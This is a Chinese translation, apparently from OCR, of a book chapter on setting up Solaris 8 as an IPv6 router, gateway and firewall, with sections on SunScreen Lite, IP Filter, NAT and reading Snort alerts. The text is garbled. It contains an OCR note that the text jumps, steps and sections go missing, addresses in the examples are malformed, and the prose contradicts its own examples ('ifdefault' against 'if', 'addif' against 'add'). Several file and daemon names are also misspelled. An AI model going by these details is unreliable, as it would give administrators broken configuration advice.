

在大多数情况下，记住一个我们专门分配给系统的地址要容易得多。如果网络出现任何问题，我们将知道分配给路由器的地址。这种知识让路由器变得更易访问、更易记忆，并且更容易用主机名命名。这个过程没有考虑到 DNS，我们将在稍后提到 DNS。

### ndpd.conf 文件

`ndpd.conf` 是 `in.ndpd` 程序（或称为 Internet 网络发现协议守护进程）的配置文件。该配置文件本应位于 `/etc/inet` 目录下，并且当守护进程由 `S69inet` 脚本启动时，它通常会在


启动过程中被读取。值得注意的是，`ndpd.conf` 文件默认并不存在。为了理解为什么这个配置文件如此重要，我们应该讨论一下 `in.ndpd` 程序及其发挥的作用。

当 `in.ndpd` 程序实现在路由器上时，必须配置其为 IPv6 网络充当路由器。这种配置涉及在 `ndpd.conf` 中创建一些条目，以使该守护进程成为网络已知的路由器。当其他系统启动并通过邻居发现协议（Neighbor Discovery Protocol）发送路由信息请求时，`in.ndpd` 作为网络路由器做出响应。

`ndpd.conf` 的最小配置提供了在 Solaris 系统上实现 IPv6 功能，由以下两个条目组成：

```
if AdvSendAdvertisements true

prefix 0A:0A:0A:0A:0A:0A/64 hme0
```


为了理解这些条目，让我们详细检查一下它们。在第一行中，我们使用了 `ifdefault` 命令。`ifdefault` 和 `if` 命令用于设置接口配置参数。`ifdefault` 命令必须在任何 `if` 命令之前，因为 `ifdefault` 用于指定接口的任何默认操作。

下一个变量是 `AdvSendAdvertisements` 参数。该参数指定系统是否将作为 IPv6 路由器运行。默认情况下，系统上的此选项设置为 `false`，这导致 `in.ndpd` 以主机模式（host mode）运行。当 `AdvSendAdvertisements` 设置为 `true` 时，`in.ndpd` 在其配置运行的接口上初始化为路由器，通过组播发送周期性广告，并对路由器请求（router solicitations）做出响应。

在下一行，我们看到了 `prefix` 条目。`prefix` 命令控制每个前缀（或网络）的配置变量。还存在一个 `prefixdefault` 变量，它与 `prefix` 变量类似，区别是 `prefixdefault` 指定了所有前缀的配置参数。`prefixdefault` 变量必须在 `ndpd.conf` 中的任何 `prefix` 变量之前。

接下来在 `prefix` 行中，我们看到了网络地址。这是一个 128 位的地址，分为八个 16 位的块。地址的最后是子网掩码。值得注意的是，这是一个无类网间路由地址，也称为 CIDR。我们还应该提到，此地址严格用于教学目的并应被使用。在字符串的末尾，是物理网络接口的名称。

作为 `ndpd.conf` 文件的守护进程支持额外的配置选项。前面的配置将使守护进程获得针对


`0A:0A:0A:0A:0A:00` 网络。有关其他支持选项的更多信息，请参阅 `ndpd.conf(4)` 手页。

## ipnodes 文件

对于 IPv4，Solaris 使用 `/etc/inet/hosts` 文件来解析已知主机。此过程由 `/etc` 目录下的 `nsswitch.conf` 文件控制。当本地系统的进程尝试通过主机名通过 IPv4 连接到另一个系统时，`nsswitch` 强制进程检查 `/etc/inet/hosts` 进行名称解析。对于 IPv6，Solaris 现在使用 `/etc/inet/ipnodes` 文件来解析已知主机。这由 `ipnodes` 配置文件控制，结构与 `hosts` 文件类似。在图 8.4 中，我们看到 `sturgeon` 的 `ipnodes` 文件中的两个条目。

### 图 8.4 ipnodes 文件指定的 IPv6 地址



在第一行，我们看到了路由器 `sturgeon.mydomain.com` 的条目。像 `hosts` 文件一样，该条目将所示地址分配给主机名，并赋予其名为 `sturgeon` 的规范名称。在该条目之后，我们看到了网络上其中一个节点的条目 `barracuda.mydomain.com`。此地址允许我们在不需要 DNS 的情况下访问 `barracuda` 系统。

## nsswitch.conf 文件

如前所述，`Solaris` 使用 `/etc/inet/hosts` 文件来解析已知主机。此过程由 `/etc` 目录下的 `nsswitch.conf` 文件控制。当本地系统的进程尝试通过主机名通过 IPv4 连接到另一个系统时，`nsswitch` 强制进程检查 `/etc/inet/hosts` 进行名称解析。对于 IPv6，`Solaris` 现在使用 `/etc/inet/ipnodes` 文件来解析已知主机。这由 `ipnodes` 配置文件控制，结构与 `hosts` 文件类似。`nsswitch.conf` 默认引用本地文件，即 `/etc/inet/hosts` (IPv4) 和 `/etc/inet/ipnodes` (IPv6)。如果我们的网络支持 IPv6 的，我们可能希望更改 `nsswitch.conf` 中的条目以使用 DNS。

启用 DNS 对我们的网络可以做两件事。如果配置得当，它可以让我们的网络更容易维护且运行更顺畅。如果我们配置错误，就会产生各种问题。

为了让 DNS 在 IPv6 上工作，我们需要 DNS 服务器。目前 IPv6 可用的名称服务是 BIND。

## IPv6 程序

在本节中，我们讨论了必要的 IPv6 程序。我们查看为 IPv6 设计的程序并简要介绍它们的功能。

### in.ndpd 程序

`in.ndpd` 程序是邻居发现守护进程。该程序负责 IPv6 的大部分操作。我们提到了配置文件，现在我们专门讨论该守护进程。

`in.ndpd` 程序在系统进入运行级别 2 时由 `S69inet` 启动。脚本执行测试以确定 `/etc/inet/ndpd.conf` 是否存在。图 8.5 包含了 `S69inet` 脚本的代码，如果 `ndpd.conf` 文件存在则判断系统为路由器。

如果此测试返回真，则将 `ip6_forwarding`、`ip6_send_redirects` 和 `ip6_ignore_redirect` 为 1。守护进程以路由器模式启动。如果测试失败，之前提到的变量设置为 0，`in.ndpd` 程序以主机模式启动。

### 图 8.5 S69inet 脚本：如果 ndpd.conf 文件存在则判断系统为路由器



通过检查代码，我们可以轻松地判断系统是 IPv6 路由器还是 IPv6 主机。如果系统作为 IPv6 路由器运行，系统启动时标准输出 (stdout) 会打印“Machine is an IPv6 router”。如果系统是 IPv6 主机，则会打印“Starting IPv6 neighbor discovery”。因此，我们可以通过观察启动过程或查看 `dmesg` 内容来确定系统是否认为自己是 IPv6 路由器。

在 `in.ndpd` 程序配置为作为 IPv6 路由器后，当系统设置为自动配置 IPv6 启动并轮询网络时，路由器上的 `in.ndpd` 将响应。主机通过 ICMPv6（IPv6 中的 ICMP 实现）通过组播地址向网络发送路由器请求。随后随后向组播地址响应 ICMPv6 数据包。主机接收此数据包并将其配置为路由器。主机与广告的路由器进行交互。

### in.ripngd 程序

`in.ripngd` 程序是路由信息协议新代守护进程。这是路由信息协议（RIP）的实现

IPv6。当系统启动并被配置为路由器时，此守护进程会被启动以管理网络路由信息。

该守护进程对于 IPv6 的作用就像 `inroute` 之于 IPv4。`inroute` 程序通过 UDP 监听 520 端口，而 `in.ripngd` 程序通过 UDP 在 521 端口上进行通信。在路由器上，此守护进程会在所有运行的 IPv6 接口上多播请求数据包，当它收到响应数据包时，它会将响应主机的信息放在 RIP 表中。这些信息稍后将用于更新系统路由表。

我们不会深入讨论这个程序，因为它仅仅完成任务的手段。它对我们的任务并非必不可，尽管它可能有所帮助。关于此程序的更多信息可以通过 `in.ripngd(1)` 手页获取。

## ifconfig 命令

在某个时刻，你将需要手动配置接口。作为系统管理员或任何其他负责系统运行、维护和可用性的职位，这是生活常态。标准的 UNIX `ifconfig` 命令已经增强以支持 IPv6，提供了扩展功能，代价是需要学习新特性。

Solaris IPv6 函数在语法上的差异是非常微不足道的。你可以向单个接口添加地址，而无需担心哪个虚拟接口将托管该地址。这只需通过使用 `addif` 标志来实现，如下所示：

```
ifconfig hme0 inet6 add 0A:0A:0A:0A:0A:0A:05/64
```

此代码允许我们向 `hme0` 接口添加 `:05` 地址，并让系统决定该地址将位于哪个虚拟接口上。执行 `ifconfig` 命令后，我们看到该地址现在位于 `hme:3` 虚拟接口上。

相应，我们也可以删除该地址，让系统为我们找到并删除它。观察以下示例：

```
ifconfig hme0 inet6 removeif 0A:0A:0A:0A:0A:0A:05
```

# 将 Solaris 配置为安全路由器和防火墙 · 第 8 章

# 244 第 8 章 · 将 Solaris 配置为安全路由器和防火墙


此代码允许系统为我们完成这项“脏活”，即移除 `:05` 地址。执行命令后，我们可以看到地址和虚拟接口已被移除。


# IPv6 路由器步骤

现在让我们来看如何设置 IPv6 路由器。正如我们之前所做的，我们将逐步进行，以确保我们关注细节。本节也可以作为你部署的任何 IPv6 路由器的实现检查清单：

- 1. 收集所有必要的文档。 这些信息包括 RFC、检查清单和技术文档。我们可能包含包含详细说明某些内容的 RFC，例如《IPv6 规范 RFC》(`RFC2460`) 和《IPv6 网络中主机自动配置 RFC》(`RFC2462`)。
- 2. 为我们的网络确定设计方案。 设计设计包括地址划分、将提供给 IPv6 网络的服务（如 DNS）、系统名称、系统是否也支持 IPv4，以及系统如何配置为 IPv6。
- 3. 部署 IPv6 网络所需的服务。 如果我们计划使用 DNS 或任何其他需要专门为 IPv6 配置的项，我们应该在转换之前完成这些，以确保协议的平滑切换。
- 4. 设计 IPv6 路由器。 路由器的设计应符合我们在第 2 步中确定的规范。这包括安全考虑、我们将使用的任何基于主机的入侵检测系统以及必要的软件。它还包括决定是从初始安装的 Solaris 8 创建路由器，还是使用一个 Solaris 8 系统。
- 5. 实现路由器。 根据之前建立的规范构建路由器。
- 6. 为 IPv6 配置必要文件。 这些文件包括 `/etc/inet/ipnodes` 文件、`/etc/net/ndpd.conf` 文件、`/etc/hostname.interface` 文件（或多个）以及 `/etc/nsswitch.conf` 文件。


# 停止 IPv6 路由

停止 IPv6 路由的过程非常简单。要让 IPv6 系统停止路由流量，我们有两种方法可以使用。

## 方法 1：重启动系统

此方法需要重启系统：

- 1. 移除或移动 `/etc/inet/ndpd.conf` 文件。如果我们想保存 `ndpd.conf` 文件，必须将其移动到不同的位置，或将其重命名为类似 `NOndpd.conf` 的名称。当系统启动未找到此文件时，`in.ndpd` 将主机主机启动。
- 2. 重启并测试。系统重启后，检查启动输出中的“Starting IPv6 neighbor discovery”字符串。此外，通过 `ndp` 检查 `ip6_forwarding`、`ip6_send_redirects` 和 `ip6_ignore_redirects` 变量，确保它们被设置为 0。

## 方法 2：不重启系统

此方法不需要重启系统。它不需要接口停机，且在执行这些操作期间系统将继续保持可访问：

- 1. 移除或移动 `/etc/inet/ndpd.conf` 文件。如果我们想保存 `ndpd.conf` 文件，必须将其移动到不同的位置，或将其重命名为类似 `NOndpd.conf` 的名称。

# 图 8.6 多主机状态



- 5. 测试配置。 像往常一样，测试配置以确保系统不再路由流量。

# IPv6 主机

我们讨论了 IPv6 路由器的配置和实现。然而，对于 IPv6 主机，路由器功能有什么用？为了给 IPv6 网络提供完整的文档，我们在这里讨论 Solaris 8 的部署。

## 自动配置

IPv6 的一项功能是能够自动配置 IP 地址。这一内置在 IPv6 中的功能被 Solaris 8 无缝支持。对于可能不需要连接的网络来说，这是一种优势。

Solaris 8 系统依赖 `hostname.interface` 文件。当系统启动并找到此文件时，它将使用其中的信息进行自配置。为了给系统所需的地址，我们需要在 `hostname.interface` 文件中放置该地址：

```
addif barracuda.mydomain.com/64 up
```


当系统新启动时，此代码指示系统将 `ipnodes` 文件中解析为 `barracuda.mydomain.com` 的地址添加到可用虚拟接口，并绑定到 `hostname.interface` 文件末尾指定的物理接口。

# 手动配置

使用 IPv6 的 Solaris 8 系统接口可以使用系统上的数据或从 DNS 获取的数据进行手动配置。这种方法对于网络上的服务器是一种理想的配置。

# ipnodes 文件

Solaris 8 主机可以进行手动配置的方法之一是使用 `/etc/ipnodes` 文件。这种方法在 IPv6 DNS 不可用的系统中是理想的。为了利用这一功能，我们的第一步是在 `ipnodes` 文件中为要配置的地址和主机名创建一个条目。看图 8.7。

在此示例中，我们看到我们的主机在 `ipnodes` 文件中有一个 `0A:0A:0A:0A:0A:0A:02` 的条目，主机名为 `barracuda` 在 `mydomain.com`。该条目在系统启动时会被引用。

# DNS

Solaris 8 配置以获取所需 IP 地址的另一种方法是通过 DNS。这种方法的好处是它允许系统获取其 IP

# 将 Solaris 配置为安全路由器和防火墙 · 第 8 章

来自一个中央管理服务器的地址。这在大型网络中非常有帮助，在大型网络中系统需要感知彼此，并且用户需要通过已知地址或名称访问网络内的系统。

## 图 8.7 一个配置了 IPv6 的主机的 ipodes 文件条目



此配置选项完全取决于支持 IPv6 DNS 的网络。要配置主机使用 DNS，必须编辑 `/etc/nsswitch.conf` 文件。`/etc/nsswitch.conf` 内部的 `ipodes` 行默认使用文件来解析主机名。编辑 `/etc/nsswitch.conf`，使 `ipodes` 行类似于以下所示：

`ipodes:      files dns`

在此配置下，当主机尝试解析 IPv6 地址或 IPv6 主机名时，它会首先查询 `/etc/inet/ipodes` 文件。如果无法在 `ipodes` 文件中找到主机的条目，它将转向 DNS。当主机接收到名称服务器的响应时，它会将此响应配置到主机6.interface 文件末尾的接口上。这被配置为物理网络接口上下一个可用虚拟接口。

`www.synergy.com`

# 将 Solaris 配置为安全网关

在本节中，我们讨论了 Solaris 作为不同网络之间的路由器。Solaris 同样能够充当网关。在实现上，这两个功能之间几乎没有区别。主要区别在于它们在网络中的位置以及它们与主机交互的方式。

网关是一个通过两个或多个接口连接同一网络两个或多个网段的系统。这种配置的原因通常是某些特定情况，例如需要专用连接的拨号用户，或者被某些物理障碍隔开的同一网段，在这些情况下不需要或不想要额外的到 Internet 出站链路。

Solaris 适用于这种用例。正如之前提到的，Solaris 的默认安装就可以用于此目的。Solaris 网关的唯一要求是两个或多个接口，系统将自动配置以便在两个网络之间传递流量。通过观察我们对极简主义的讨论，可以创建一个大多数情况下提供安全、可靠服务的系统。

我们应该提到的一个配置差异是更改 IP 内核模块变量。在我们之前的讨论中，我们建议禁用 `ip_forward_directed_broadcasts` 和 `ip_forward_src_routed` 变量。在系统处于同一子网的网关环境中，我们不想禁用这些选项。在网关情况下，这些选项对网络管理很有帮助。设计良好的网络不会让广播进入或离开子网。

# 将 Solaris 配置为防火墙

我们已经讨论了作为路由器和网关的 Solaris。使用 Solaris 实现的此类系统是可靠、稳定且安全的。然而，在这样的环境中使用 Solaris 在安全方面有许多缺点。与硬件解决方案不同，Solaris 的原生安装中在网络访问控制方面没有提供任何功能。

为了提供更安全的网络，在本节中，我们将讨论用于为网络和系统提供防火墙服务的各种方法和包。这样做的好处在于允许我们控制从路由器一侧流向另一侧的流量。我们还讨论了使用这些包的网络设计以及系统的部署。此外，我们还讨论了使用此类系统的优缺点。

# 将 Solaris 配置为安全路由器和防火墙 · 第 8 章

有很多运行在 Solaris 上的免费商业防火墙实现，Gauntlet 和 Firewall-1 就是两个例子。此外，还有使用 Sun 的 SunScreen Lite 和 Darren Reed 的 IP Filter 的免费防火墙包。我们将讨论重点放在 SunScreen Lite 和 IP Filter 上。

# 通用防火墙理论

防火墙背后的思想是什么？简单来说，这个概念是将坏人挡在外，同时让好人继续访问外部（或至少是他们允许访问的内容），并允许需要访问的人进入。尽管这初听起来相当简单，但现实中实现防火墙系统要复杂得多。

大多数企业使用多层防火墙来完成其任务。这种多层结构的好处是分担访问控制的负载，防止任何一个系统成为瓶颈，并且在到达最终目的地之前提供了几层访问控制。整体益处是增强了网络安全和性能。

这种设计也有缺点。一个缺点是它创建了多个需要维护的系统。这可能导致额外的人力支出和更多的工作时间。这种设计的另一个缺点是多个防火墙规则集增加了复杂性。任何系统上的任何一个变化都可能轻易导致网络噩梦。

那么最好的解决方案是什么呢？观点各不一，“更大的防火墙”派和“更多防火墙”派仍在为此问题争斗不断。我的建议是创建一个满足你的业务需求、为网络上的主机提供安全，并且不会限制用户访问以至于无法使用的基础设施。提供网络安全的关键是持续的规划。

部署安全基础设施不是灵丹药，也不是永久的修复。你会不断发现软件方面的问题；操作系统、应用程序甚至防火墙包本身都会受到影响并需要更新。此外，网络需求和规模在发生变化。今天对你的网络有效的东西，明天可能变成网络的负担。持续监控部署在网络上的安全基础设施的性能和安全性至关重要。在书中不可能为网络规定最佳防火墙设计。所有网络都有自己的一套需求。在下一节中，我们将讨论通用防火墙设计。


# 通用防火墙设计

# 将 Solaris 配置为安全路由器和防火墙 • 第8 章

互联网赋予了入侵者在本地系统上执行命令的能力。

- 使用状态规则。拥有一个状态防火墙可以极大地增强网络安全。然而，如果我们不使用状态连接检查功能，状态防火墙对我们并无益。在实施时，请确保它们检查连接状态。

处理私有网络和非军事化区（DMZ）等网络问题不在本书的范围内，但值得注意的是，这些概念可以应用于任何类型的网络。

让我们继续讨论完成这项工作所需的一些工具。在商业领域，Solaris 都有许多防火墙实现方案，例如 Gauntlet 和 Check Point Firewall-I。我们只讨论免费提供的工具。我们不会深入探讨这些工具的使用，但会将它们作为进一步保护您的网络决策过程的一部分提及。

## SunScreen Lite

SunScreen Lite 是 SunScreen Secure Net 防火墙包的免费版本。SunScreen Lite 设计为以路由模式运行。这意味着过滤器仅过滤 Solaris 路由器路由的流量。这完美符合我们的需求。Sun Lite 可用于 VPN，并支持用于互联网协议的简单密钥管理（SKIP）。

该软件包也存在一些缺点。首先，它有许多包依赖问题，取决于您的系统如何设计，可能需要添加包。其次，它不支持高可用性集群。这意味着 SunScreen 数据包过滤器是一个单点故障。在系统由于某种原因发生故障的情况下，由防火墙筛选的整个网络将变得不可用。

另一个缺点是，如果我们决定在严苛的网络限制运行某些服务，而这些服务需要代理来与外部网络通信，那么我们就无法使用 Sun Lite。这可能会限制某些应用程序代理的使用。

最后，Sun Lite 在支持的接口数量和用于网络地址转换（NAT）的 IP 地址数量上受到限制。该软件包在系统上最多支持两个接口。如果我们想将系统放在私有网络中，并允许从外部到预定 IP 地址的特定流量到达私有网络内部系统的端口，这将是不人意的。SunScreen Lite 仅支持 10 个私有地址和两条 NAT 规则。此外，SunScreen Lite 不支持 IPv6。

商业版 SunScreen 包支持所有这些功能。此外，它还提供了一些高级功能，如状态防火墙、多接口和基于时间的访问控制。如果该产品的限制没有阻止您在网络上使用它，SunScreen Lite 可能是您的最佳选择。SunScreen 可以 Sun Download Center 获取。有关 SunScreen 安装和管理的文档也可以从 Sun 免费获取。

## IP Filter

IP Filter 软件包是互联网上较旧的防火墙实现之一，最初发布于1993年。该程序由 Darren Reed 编写，作为 UNIX 主机的状态防火墙仍然流行。它是免费开源的。它可以同时作为网络防火墙和基于主机的防火墙进行实现。它支持 IPv4 和 IPv6 网络。

IP Filter 网站为 http://coombs.anu.edu.au/ipfilter/index.html。网站上有以 FAQ 形式提供的文档。关于 IP Filter 的其他两个文档是 Jeremy Rauch 在 2000 年 7 月编写的两部分文档《IP Filter 简介》，以及由 Kristy Westphal 写的《Solaris 和 IP Filter：如何构建您的 NAT 解决方案》，均可以通过 SecurityFocus 的 www.securityfocus.com 获取。

尽管 IP Filter 有许多优点，但它面临与 SunScreen 相同的高可用性问题。没有高可用性，因此软件在网络中引入了单点故障。此外，IP Filter 不具备加密感知能力。后者比前者更容易解决，但在决策过程中是需要考虑的。

## 使用 NAT

另一种可以保护流量的方法是将信息系统放在私有网络上并使用网络地址转换（NAT）。NAT 定义在 RFC 3022 中。私有*一词意味着网络内部的地址在互联网上是不可路由的。由路由器管理的系统通过路由器传出流量，由路由器执行转换，使数据包看起来像是源自路由器。

NAT 路由器背后的系统无法从路由器的外部接口直接访问。因此，本地网络之外的用户无法访问 NAT 路由器之外的系统，除非 NAT 路由器上的特定端口已映射到宿主机上的特定端口，或者 NAT 路由器上的特定 IP 地址已映射到私有网络上的特定 IP 地址。这种限制为网络提供了有限的安全性。


Solaris 8 默认软件安装中不包含提供 NAT 基础设施的实用程序。之前提到的防火墙包均具有 NAT 能力，可以用于此目的。这种实现方法的缺点是，由于仅依赖 NAT 而不使用访问控制，网络内部主机仍然可能与外部主机通信，无论是自愿还是非自愿的。如所述，执行木马程序的不知用户可能会让远程攻击者跨越 NAT 路由器访问系统，这只是许多风险之一。这可能导致攻击者破坏系统以及其他网络资源。然而，NAT 是非常有用的。如果使用 NAT，建议您……（注：OCR 文本跳转到：第8 章将 Solaris 配置为安全路由器和防火墙）。

## 将 Solaris 配置为安全路由器和防火墙 · 第 8 章

此配置让 Snort 了解对这些系统的预期。通过在包含的 `snort.conf` 文件中设置这些变量，并在 Snort 开始读取配置文件后，Snort 即可正常工作。默认配置提供了对网络流量的全面审计，在大多数情况下可以检测到网络上的已知攻击或其他其他异常行为。任何 IDS 事件的输出都会发送到 `/var/log/snort`。

我们可能想要启用一个默认未启用的选项是针对 DNS 服务器的 `portscan-ignorehosts` 选项。DNS 服务器经常会产生误报的端口扫描。在繁忙的网络中，这可能会导致来自本地名称服务器的海量误报端口扫描日志。请评估此选项并查看它是否适用于您的网络。

# Snort 日志分析

如果不每天审计日志就部署 Snort，无异于购买了日报订阅却却从不阅读。如果你愿意支付这笔费用，你完全可能从中获益。就像报纸需要钱一样，Snort 需要消耗 CPU、RAM 和日志存储空间。

Snort 可以配置为记录到任何一个或多个介质，例如纯文本文件或 SQL 数据库。Snort 纯文本文件的输出易于阅读。查看以下条目：


```
[**] [1:0:0] CodeRed Defacement Sent [**]
08/11-17:10:26.227974 192.168.1.10:4002 -> 192.168.2.30:80
TCP TLI TTL: 115 TOS: 0x0 ID: 18034 IPLen: 20 DgmLn:115 DF
****** Seq: 0x86CCF2D8 Ack: 0xA990F720 Win: 0x44470 TcpLen: 20
```


从第一行可以看出，这是一次由 Code Red 病毒变体发起的攻击。在第二行中，我们看到攻击发生在 8 月 11 日 17:10。攻击是从主机 `192.168.1.10` 的端口 `4002` 发起，针对 `192.168.2.30` 的端口 `80`。第三行告诉我们收到的是一个 TCP 包，其存活时间（TTL）为 `115`。服务类型（TOS）标志设置为 `0x0`，分片头部中的 ID 为 `18034`，头部长度为 `20` 字节，整个数据报为 `1155` 字节，并设置了不分片（DF）标志。在第四行中，我们看到 ACK 和 PSH 标志已设置，序列号为 `0x86CCF2D8`，确认号为 `0xA990F720`，窗口大小为 `0x44470`，最后，TCP 头部长度为 `20`。

当 Snort 在传输过程中数据包时，所有这些变量（包括数据包内容）都会考虑在内。通过了解这些变量的含义，我们可以理解 Snort 在记录事件时在向我们警报什么。

这给我们留下了哪些选择？我们可以根据违规行为联系用户的提供商。我们可以让在线日志分析设施之一来管理我们的日志。或者我们可以直接忽略它。这个决定完全是主观的，应该根据您的业务需求和站点安全策略来做出。

## 总结

在本章中，我们讨论了将 Solaris 8 作为安全 IPv4 路由器的实现，并将主机描述为具有多个接口连接到相同或不同网的系统。我们将路由器描述为具有至少两个接口并连接到网络不同段的系统，并断言 Solaris 是一个很好的路由器选择，因为它的稳定性、为生产网络使用加固操作系统的便利性以及部署的便捷性。

接下来，我们讨论了 Solaris 如何通过流量（前提是系统具有两个接口、至少两个 `/etc/hostname.interface` 文件并且安装了默认的 `/etc/rc.d/S69inet`）将自己识别为路由器。我们演示了 `/etc/rc.d/S30network.sh` 如何配置具有两个或多个接口的系统、`/etc/gateways` 文件的存在性以及 `/etc/norouter` 文件的不存在。

随后，我们提供了配置 Solaris 8 路由器的几个步骤，并讨论了极简主义策略以及部署具有最小化安装、用户、动态信息和明文通信的系统。然后，我们详细说明了取消配置 Solaris 路由器的三个步骤，将其恢复到多宿主状态。

接下来，我们涵盖了实现 Solaris 8 作为 IPv6 路由器。我们检查了 `/etc/hostname.interface` 文件中的条目，描述了 `/etc/inet/nppd.conf` 文件中的默认和前缀条目，讨论了在 `/etc/inet/ipnodes` 文件中为要在系统上配置的 IPv6 地址创建条目，并在 `/etc/nswitch.conf` 的 `ippnode` 条目中添加 `dns` 以使系统通过 DNS 解析其 IP 地址。我们还描述了 `nppd` 以及它如何管理 IPv6 网络信息的，以及通过在 `ifconfig` 中添加 `inet6` 标志来实现的 IPv6 功能。我们描述了关于 IPv6 路由器的讨论，包括实现 IPv6 路由器的七个，并描述了通过删除 `nppd.conf` 文件、重启 `nppd` 将 IPv6 路由器转换为多宿主 IPv6 主机。

## 第 8 章 · 将 Solaris 配置为安全路由器和防火墙

在关于网关的讨论之后，我们涵盖了 Solaris 作为防火墙的主题。我们将 Solaris 网关定义为连接两个网络段的系统。我们另外讨论了内核模块 `ip_directed_broadcasts` 和 `ip_forward_src`。

我们描述了使用分布式防火墙的优点，例如多层访问控制带来的更好的网络性能。我们强调了安全基础设施不是一劳永逸的，需要规划和持续监控。

我们过渡到防火墙的理想设计。无状态防火墙不跟踪连接状态，而状态防火墙维护当前连接的记录。

我们涵盖了 SunScreen Lite 和 IP Filter。我们讨论了 SunScreen Lite 的优点以及缺点：缺乏高可用性、对十个私有地址的限制以及在 IPv6 网络上缺乏功能。我们描述了 IP Filter 的优点，例如它同时支持 IPv4 和 IPv6。我们还描述了 IP Filter 的缺点，例如不支持高可用性且不支持加密。

我们以对 Snort 的讨论结束本章。我们描述 Snort 是对网络进行入侵检测的理想软件包，因为它可以同时监控多个网络和接口。我们描述了配置 `snort.conf` 文件的过程，设置了 `HOME_NET`、`EXTERNAL_NET`、`SMTP_SERVERS`、`HTTP_SERVERS`、`SQL_SERVERS` 和 `DNS_SERVERS`。我们后来提到一个通过允许主机来缩小日志文件大小的选项。我们描述了 Snort 日志事件的分析，并描述了每个字段，例如服务类型字段以及序列号和确认字段。我们以对处理入侵尝试的困境进行结束，列出了联系用户的提供商、让在线日志分析设施管理我们的日志或直接忽略该事件。

# 将 Solaris 配置为安全路由器 • 第 8 章

## 解决方案快速通道

# 将 Solaris 配置为安全路由器

- Solaris 具有关闭系统上所有服务、对运行内核进行配置更改以及在不重启系统的情况下在系统上创建多层访问控制的能力，这使其成为具有 110% 可用要求的网络的完美选择。
- Solaris 的默认安装通过简单启动系统并配置好与连接网络通信的接口，即可提供到同一网络的不同部分甚至是完全不同网络之间的连接性。
- 默认安装的 Solaris 具有两个以上的接口（包括回环接口），如果这些接口未通过 DHCP 配置，则默认情况下不会路由流量。
